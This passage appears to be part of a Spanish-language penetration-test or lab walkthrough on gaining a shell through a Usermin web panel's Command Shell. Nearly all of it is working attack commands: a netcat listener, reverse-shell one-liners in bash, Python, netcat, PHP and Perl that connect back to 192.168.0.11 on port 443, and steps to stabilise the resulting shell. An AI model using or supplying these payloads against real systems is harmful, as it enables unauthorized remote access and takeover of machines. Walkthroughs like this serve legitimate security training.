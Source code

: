 #### Exploración del Panel Usermin

**Funcionalidades identificadas:**
- Mail → Gestión de correo electrónico
- Password → Cambio de contraseñas  
- **Command Shell** → Terminal web (CRÍTICO)

### 3.2 Establecimiento de Shell Estable

#### Configuración del Listener
```bash
# Terminal 1: Configurar listener
nc -lvnp 443

# Verificar puerto disponible
ss -tlnp | grep :443
```

#### Payloads de Shell Reversa

**Payload Principal (Bash):**
```bash
# Desde terminal web de Usermin
bash -i >& /dev/tcp/192.168.0.11/443 0>&1
```

**Payloads Alternativos:**
```bash
# Python (si disponible)
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.11",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Netcat tradicional
nc -e /bin/bash 192.168.0.11 443

# PHP (si existe servidor web con PHP)
php -r '$sock=fsockopen("192.168.0.11",443);exec("/bin/sh -i <&3 >&3 2>&3");'

# Perl
perl -e 'use Socket;$i="192.168.0.11";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Estabilización de Shell
```bash
# Una vez obtenida la shell reversa
python3 -c 'import pty; pty.spawn("/bin/bash")'

# O usando script
script /dev/null -c bash

# Configurar variables de entorno
export TERM=xterm
export SHELL=/bin/bash

# En la máquina atacante (Ctrl+Z para background)
stty raw -echo; fg
```
